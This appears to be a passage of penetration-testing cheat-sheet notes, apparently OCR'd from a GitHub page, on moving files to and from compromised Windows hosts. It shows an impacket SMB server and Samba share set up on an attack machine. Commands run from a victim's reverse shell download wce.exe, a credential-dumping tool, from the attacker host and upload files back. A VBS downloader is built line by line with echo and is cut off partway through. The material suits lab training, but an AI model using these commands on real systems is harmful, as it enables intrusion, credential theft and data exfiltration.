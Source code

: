 ### Windows create SMB Server transfer files

```bash
# Attack machine
python /usr/share/doc/python-impacket/examples/smbserver.py Lab "/root/labs/public/10.11.1.111"

	# Or SMB service
	# http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html
	vim /etc/samba/smb.conf
		[global]
		workgroup = WORKGROUP
		server string = Samba Server %v
		netbios name = indishell-lab
		security = user
		map to guest = bad user
		name resolve order = bcast host
		dns proxy = no
		bind interfaces only = yes

		[ica]
		path = /var/www/html/pub
		writable = no
		guest ok = yes
		guest only = yes
		read only = yes
		directory mode = 0555
		force user = nobody

	chmod -R 777 smb_path
	chown -R nobody:nobody smb_path
	service smbd restart

# Victim machine with reverse shell
Download: copy \\10.11.1.111\Lab\wce.exe .
Upload: copy wtf.jpg \\10.11.1.111\Lab
```

### Windows download with VBS

```
# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
```